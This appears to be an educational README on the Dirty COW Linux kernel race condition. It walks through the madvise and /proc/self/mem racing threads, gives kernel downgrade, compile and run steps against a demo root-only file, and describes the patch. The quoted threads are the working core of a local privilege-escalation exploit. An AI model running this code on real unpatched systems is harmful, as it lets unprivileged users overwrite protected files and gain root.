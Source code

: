
# Dirty Cow exploit

## Exploit Overview
"A race condition was found in the way Linux kernel's memory subsystem
handled breakage of the read only private mappings COW situation on
write access.

An unprivileged local user could use this flaw to gain
write access to otherwise read only memory mappings and thus increase
their privileges on the system." - [From Redhat CVE](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#)

The exploit leverages two functions madvise(MADV_DONTNEED) and open("/proc/self/mem",O_RDWR), to create a race condition between the two. Simply stated, we map the file to be changed to a copy that we can write to. We aren't able to write this copied file to the original file because we don't have the necessary permissions, however we are able to circumvent this via the race condition.

The first function, madvise, looks like this:

```
void *madviseThread(void *arg){
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<100000000;i++)
    {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("madvise %d\n\n",c);
  }
```
The madvice call is used mainly for optimization by allowing the user to give advice/directions to the kernel about how the given address range will be used. In this case we tell it that we don't need the first 100 bytes by passing 100, MADV_DONTNEED. The man page specifies that this means "do not expect access in the near future" and that the memory access will differ now in that any "subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file". This is very important to the exploit as it tells us that everytime we try to access this file we will repopulate the contents, which is part of the race condition.

The second function, proc/self/mem uses 'proc' which acts a pseudo-file system that helps runs most file operations in linux (everything is a file is very powerful here). /proc/self/mem is a "file" that contains the current process' memory, which we use to write to our file.

```
void *procselfmemThread(void *arg){
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<100000000;i++) {
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}
```
The above code attempts to write the passed argument string in the memory of the process in the location of the mapped file. This tries to write to the copy of the file, creating a copy-on-write event. 

This should not work and the two methods working independent of each other would not cause such an exploit to occur, but when raced against each other, an edge case occurs in which the actual file is written to instead of the mapped file. Simply stated, the race condition occurs when the file map that has been dropped from memory using madvise has not been completely written to the mapped memory when the procselfmem thread attempts to write. This is because the page table entry that points to our mapped memory has not been written yet and when we write, the page table directs this write to the original file, rather than the mapped one. By doing this over and over again for a large amount of times we can reliably execute this exploit. This allows us, for this simple case, to write to a file with root only write permission.

## Compilation

This is a relatively recent zero day and as such works on any of the kernels before the ones listed below, as they are the ones where the patch was added:

[Patched Kernels](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)

If your kernel is newer, use the following commands based on your operating system, where $image-number-here$ is a kernel number before the ones in the link above. We highly recomend you search for the complete image name in your prefered OS and replace it below, as only the image number will not be the entire name of the package.

####Ubuntu
```
sudo apt-get install linux-image-$image-number-here$
sudo apt-get install linux-headers-$image-number-here$
```
####Debian
```
aptitude install linux-image-$image-number-here$
aptitude install linux-headers-$image-number-here$
```
####Arch
```
pacman -U linux-$image-number-here$.pkg.tar.xz linux-headers-$image-number-here$.pkg.tar.xz
```
After you downgrade your kernel, the compilation is as such

```
gcc -pthread dirtyc0w.c -o dirtyc0w
```
The -pthread option is included because of the multithread aspect of the exploit, the man page for gcc tells us that it "Adds support for multithreading with the pthreads library. This option sets flags for both the preprocessor and linker".

## Running

Running the exploit is pretty simple. First, compile the dirtyc0w.c file as shown above.
Second, run the setup.sh script **as root**.
```
./setup.sh
```
This creates a file called 'protected_file' that is writeable only by root but readable by all and contains the string 'protected contents. Finally, run the run.sh script.
```
./run.sh
```
This will print out details about the file and its contents, then run the exploit and print the same details again. The run.sh script pushes 'Overwritten!' into the protected file and does not modify any of its details, including the modification time and the user privilages.

## Fixes

The easiest way to fix this bug is to upgrade your kernel to one of the patched kernels linked in the compilation section. In essence, the patch adds a dirty bit to make sure that the file has been completely copied to the mapped memory before it allows for writing. For more information about the fix, check out the patch notes [here](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619).

## Additional Resources

For other variations on the race condition described above, check out the dirty cow [website](https://dirtycow.ninja/) and for a more detailed walkthrough of the code and the patch see this [video](https://www.youtube.com/watch?v=kEsshExn7aE).

